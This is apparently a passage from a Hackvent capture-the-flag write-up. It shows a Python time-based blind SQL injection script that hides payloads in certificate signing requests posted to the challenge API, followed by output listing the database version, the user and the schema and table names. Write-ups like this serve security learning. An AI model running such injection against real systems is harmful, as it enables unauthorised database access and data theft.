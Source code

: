 ```python
        csr_str = crypto.dump_certificate_request(crypto.FILETYPE_PEM, csr).decode()
        start = time.time()
        requests.post('http://challenges.hackvent.hacking-lab.com:1088/php/api.php?function=csr&argument=&key=E7g24fPcZgL5dg78', data = {'csr':csr_str})
        end = time.time()

        if end-start < TIMEOUT:
            l = m + 1
        else:
            test = 'ASCII(MID((' + target + '),' + str(pos+1) + ',1))<' + str(m)
            full_payload = payl+test+suff
            csr = create_CSR(KEY, full_payload)
            csr_str = crypto.dump_certificate_request(crypto.FILETYPE_PEM, csr).decode()
            start = time.time()
            requests.post('http://challenges.hackvent.hacking-lab.com:1088/php/api.php?function=csr&argument=&key=E7g24fPcZgL5dg78', data = {'csr':csr_str})
            end = time.time()

            if end-start < TIMEOUT:
                r = m - 1
            else:
                found = True
                value += chr(m)
                print(value)
```

Using this script I was able to check first some values to confirm that it worked:
```
$ ./sqlexploit.py 'select @@version'
10.1.26-MariaDB-0+deb9u1
$ ./sql-exploit.py 'select user()'
admin@localhost
```

Then using the following query in the script and iterating on the limit I could list all databases:
```
select schema_name from information_schema.schemata limit 0,1

hv24_2
information_schema
mysql
performance_schema
```

Then I could list the tables (again iterating on the limit):
```
select table_name,table_schema from information_schema.tables limit 0,1

certificates
keystorage
ALL_PLUGINS
APPLICABLE_ROLES
... and more
```
